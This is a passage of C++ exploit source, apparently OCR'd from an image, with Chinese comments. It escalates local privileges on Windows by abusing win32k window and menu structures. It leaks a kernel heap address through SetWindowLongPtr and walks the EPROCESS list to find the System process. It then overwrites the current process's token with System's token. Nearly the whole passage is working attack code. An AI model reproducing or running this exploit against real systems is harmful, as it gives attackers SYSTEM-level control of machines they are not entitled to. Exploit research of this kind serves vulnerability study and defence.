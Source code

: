 ```cpp
        *(DWORD*)((PBYTE)g_pMyMenu + 0x44) = 2;
        *(ULONG_PTR*)(*(ULONG_PTR*)((PBYTE)g_pMyMenu + 0x58)) = 0x4141414141414141;
        // end of 10.2
 
        // 10.3 利用SetWindowLongPtr的GWLP_ID(-12)号功能设置窗口1的菜单为10.2构造的g_pMyMenu，同时会返回旧的菜单地址ptagWND->spMenu，该地址是内核堆地址（可以参考tagWnd结构）
        ULONG_PTR pSPMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)g_pMyMenu); //Return leak kernel address and set fake spmenu memory
        //pSPMenu leak kernel address, good!!!
        // end of 10.3
 
        // 10.4 还原窗口1的样式属性
        ululStyle &= ~0x4000000000000000L;//WS_CHILD
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
        // end of 10.4
    }
    // end of 10
 
    ULONG_PTR ululValue1 = 0, ululValue2 = 0;
 
    // 11. 从ptagWND->spMenu->unknown0->unknown->pEPROCESS处读取eprocess信息
    //     1）ReadKernelMemoryQQWORD函数可以读取指定内核地址处的16字节的数据，uluValue1保存前面8字节，vluValue2保存后面8字节
    ReadKernelMemoryQQWORD(pSPMenu + 0x18, ululValue1, ululValue2);
    ReadKernelMemoryQQWORD(ululValue1 + 0x100, ululValue1, ululValue2);
    ReadKernelMemoryQQWORD(ululValue1, ululValue1, ululValue2);
 
    ULONG_PTR pMyEProcess = ululValue1;
    std::cout<< "Get current kernel eprocess: " << pMyEProcess << std::endl;
    // end of 11
 
    // 12. 从eprocess中读取4号进程的access token，复制到我们当前的进程中实现提权
    ULONG_PTR pSystemEProcess = 0;
 
    ULONG_PTR pNextEProcess = pMyEProcess;
    for (int i = 0; i < 500; i++) {
        ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_ActiveProcessLinks_offset, ululValue1, ululValue2);
        pNextEProcess = ululValue1 - g_dwEPROCESS_ActiveProcessLinks_offset;
 
        ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_UniqueProcessId_offset, ululValue1, ululValue2);
 
        ULONG_PTR nProcessId = ululValue1;
        if (nProcessId == 4) { // System process id
            pSystemEProcess = pNextEProcess;
            std::cout << "System kernel eprocess: " << std::hex << pSystemEProcess << std::endl;
 
            ReadKernelMemoryQQWORD(pSystemEProcess + g_dwEPROCESS_Token_offset, ululValue1, ululValue2);
            ULONG_PTR pSystemToken = ululValue1;
 
            ULONG_PTR pMyEProcessToken = pMyEProcess + g_dwEPROCESS_Token_offset;
 
            //Write kernel memory
            LONG_PTR old = SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pMyEProcessToken);
            SetWindowLongPtr(g_hWnd[1], 0, (LONG_PTR)pSystemToken);  //Modify offset to memory address
            SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)old);
            break;
        }
```